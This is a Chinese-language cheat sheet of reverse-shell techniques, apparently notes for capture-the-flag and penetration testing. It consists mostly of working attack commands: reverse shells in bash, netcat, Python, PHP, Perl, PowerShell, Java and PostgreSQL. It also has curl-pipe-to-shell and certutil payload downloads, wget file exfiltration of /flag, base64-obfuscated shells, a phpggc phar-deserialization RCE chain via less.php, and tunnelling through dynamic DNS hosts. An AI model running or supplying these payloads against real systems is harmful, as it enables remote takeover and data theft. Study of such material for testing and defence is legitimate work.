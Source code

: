 [反弹 Shell 大全与原理](https://mp.weixin.qq.com/s/ClqEAqpPxlscNJphSBfhKA)
[Ladon | 22 种反弹 Shell 方法 openssl\\java\\py\\php\\perl\\lua\\curl\\socat ncat ruby](https://mp.weixin.qq.com/s/oPFxDxaUb9eGm-zrJzP55g)

- TheFatRat 创建反弹 shell

## 反弹 Shell

https://www.cnblogs.com/xiaozi/p/13493010.html

如果是 php_shell, `?c=system('wget http://xxx')` , `wget xxx` 这里要进行 url 编码

windows 上传 `certutil -urlcache -split -f http://11.1.63.37/nc.exe nc.exe`

nc 参数

```shell
-l              listen mode, for inbound connects
-L              listen harder, re-listen on socket close
-v              verbose [use twice to be more verbose]
```

**bash 连接**

```shell
# 攻击机器
nc -lvp 7777

# 被攻击机 , 不要在zsh
/bin/bash -i >& /dev/tcp/攻击机ip/7777 0>&1
bash -c '/bin/bash -i >& /dev/tcp/192.168.50.161/7777 0>&1'
bash -c 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTAuMTYxLzc3NzcgMD4mMQ==|base64 -d|bash -i'
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTAuMTYxLzc3NzcgMD4mMQ==|base64 -d|bash
curl http://攻击机ip:2126/sa.sh|bash

## curl: shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1
curl 192.168.1.20|bash
nc 127.0.0.1 7777 -e /bin/bash
nc 127.0.0.1 7777 -e cmd.exe                       // Windows
nc 127.0.0.1 7777 -e c:\windows\system32\cmd.exe   // Windows

## nc连接无 -e 参数
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 1.1.1.1 7777 1>/tmp/backpipe

nc -e /bin/sh 192.168.50.161 4444
## python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.1",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
## php
php -r '$sock=fsockopen("192.168.32.1",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
## perl - Linux
perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
## perl - Windows
perl -e 'use Socket;$i="47.101.57.72";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## telnet , 攻击机监听2个端口 nc -lvvp 4445, nc -lvvp 4444
telnet 192.168.50.161 4444 | /bin/bash | telnet 192.168.50.161 4445
```

**powershell**

```bat
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.183.1:8080/powercat.ps1');powercat -c 192.168.183.1 -p 4444 -e cmd
```

**利用被攻击机 ip**
其他都是需要攻击机 ip，这个则相反。我的理解是需要攻击机 ip 的相当于把 shell 弹给攻击机(所以攻击机 ip 和 bash 在一行代码)，而这个相当于在本地端口开个 shell,攻击机访问端口来拿 shell

```shell
nc 1.1.1.1 7777

# 被攻击机输入
nc -lvp 7777 -e /bin/bash
```

python 方式 2

```py
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.20.151",7777)) #更改localhost为自己的外网ip,端口任意
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

客户机

```
curl 192.168.1.20/shell.py|python
```

**wget** 反弹 shell

```
靶机:
wget --post-file /flag http://ip:port/
wget http://wgf4242.51vip.biz/shell.txt -O /tmp/x.php && php /tmp/x.php
wget 192.168.20.130/shell.txt -O /tmp/x.php && php /tmp/x.php
http://xxx/wget?argv=1&argv=--post-file&argv=/flag&argv=http://wgf4242.51vip.biz:34578
vps攻击机: nc -lvp 2333
```

shell.txt 内容

```php
<?php
$sock=fsockopen("1.1.1.1",7777);//localhost为自己的外网ip，端口任意
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

python -m http.server --bind 0.0.0.0 8080

**java** 反弹 shell
[Runtime 执行 linux 命令时管道符不生效](https://mp.weixin.qq.com/s/EhatzI7QVmh_RQZYOWNBYg)

```java
public class Revs {
public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

Runtime 执行 linux 命令时管道符不生效, 用 base64 编码内容

```sh
#bash
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg}|{base64,-d}|{bash,-i}
#python
python -c exec('L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg'.decode('base64'))
```

**postgres** 反弹 shell

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM '/bin/bash -i >& /dev/tcp/11.1.xx.xx/1234 0>&1';
-- COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

### less/phar 反弹 shell

原理简单来说是利用 less.php 编译 Less，在编译的过程中，利用`@import (inline)`和`data`伪协议将文件写入到`assets/forum.css`中，再用`data-uri('phar://./assets/forum.css')`触发 phar 反序列化实现命令执行

这里的反序列化链由 phpggc 生成：

- 这里反弹 shell 需要一点小技巧，我这里的打法是：在 29999 端口的 HTTP 服务里放一个 1.txt，然后在 39999 端口监听准备拿 shell

```sh
perl -e 'use Socket;$i="1.1.1.1";$p=39999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

再用 phpggc 生成

```bash
php phpggc -p tar -b Monolog/RCE6 system "curl 1.1.1.1:29999/1.txt|sh"
```

payload 如下, 在自定义 css 处写入以下 payload, 保存

```bash
@import (inline) 'data:text/css;base64,dGVzdC50eHQAAAAAAA......';
```

访问一下，phar 内容成功写入

```bash
http://39.99.150.188/assets/forum.css?v=2166f2e8
```

然后再编辑一下，用 data-uri 做 phar 反序列化触发命令执行

```css
.test {
  content: data-uri("phar://./assets/forum.css");
}
```

### 无公网 IP 反弹 shell

https://www.bilibili.com/video/BV1pq4y1U7CR

方法 1:
花生壳开 127.0.0.1 54321 端口 得到 tcp://397j302b56.zicp.vip:37932
本机 nc -lvvnp 54321
远程 /?c=system("nc wgf4242.51vip.biz 39672 -e /bin/sh");

方法 2:
花生壳开虚拟机地址 192.168.0.102 54321 得到 tcp://397j302b56.zicp.vip:37932
本机 A IP 是 192.168.0.100, 电脑 B 192.168.0.100, 虚拟机 C 属于电脑 B 是 192.168.247.128
如何让 A 与 C 互通
虚拟机 C nc -lvvnp 54321
花生壳 PC$ netsh interface portproxy add v4tov4 listenaddress=192.168.0.102 listenport=54321 connectaddress=192.168.247.128 connectport=54321

bash -i >& /dev/tcp/397j302b56.zicp.vip/22599 0>&1
